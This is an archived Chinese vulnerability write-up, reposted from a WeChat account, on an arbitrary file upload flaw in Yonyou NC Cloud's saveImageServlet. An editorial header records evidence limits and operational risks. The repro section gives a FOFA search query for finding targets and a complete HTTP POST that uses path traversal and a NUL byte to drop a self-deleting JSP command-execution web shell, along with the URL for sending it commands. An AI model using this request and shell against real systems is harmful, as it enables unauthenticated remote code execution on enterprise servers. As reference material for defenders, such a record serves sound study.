








# 用友NC Cloud saveImageServlet 文件上传

## 条目说明

- 对象与具体问题：用友NC Cloud；saveImageServlet 文件上传
- 版本、配置及部署条件：2024-04-18历史报告；版本未知
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- doPost是路径末段，应标题标明saveImageServlet接口
- filename路径穿越及NUL、JSP保存/回读一致，但依赖部署根与解析行为
- 尚未修复须限定报告日期，不能表示现状

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

南风徐来  南风漏洞复现文库   2024-04-18 23:15  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
### 1. 用友NC Cloud简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
### 2.漏洞描述  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。用友NC Cloud doPost接口存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
### 3.影响版本  
  
用友NC Cloud  
  
  
  
用友NC Cloud doPost接口存在任意文件上传漏洞  
### 4.fofa查询语句  
  
app="用友-UFIDA-NC"  
### 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../tteesstt.jsp%00  
  
漏洞数据包：  
```http
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../tteesstt.jsp%00 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/octet-stream
Content-Length: 313

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
```  

> 请求长度说明：原资料 Content-Length 为 313；保留原始标头；其数值未据实际请求体重新计算或验证。
  
  
  
上传后的路径为：http://127.0.0.1/portal/processxml/tteesstt.jsp?cmd=ipconfig  
  
  
### 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
  
  
  
  
  
  
  
  
  
  
  
### 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
### 8.往期回顾  
  
[泛微e-office系统ajax.php接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486198&idx=1&sn=971121723b24414642a6efd672c22ecc&chksm=974b87f1a03c0ee7675fb34a06913c10ca977fd6f9a1158a1bd19af1641fe16ffb2d6ec86e65&scene=21#wechat_redirect)  
  
  
[魔方网表mailupdate.jsp接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486185&idx=1&sn=1e454d13e5415d343d126acc74b85954&chksm=974b87eea03c0ef841b66c87ea913d064f5a4b490c58b1f37794b9464070a744df5c0e551266&scene=21#wechat_redirect)  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
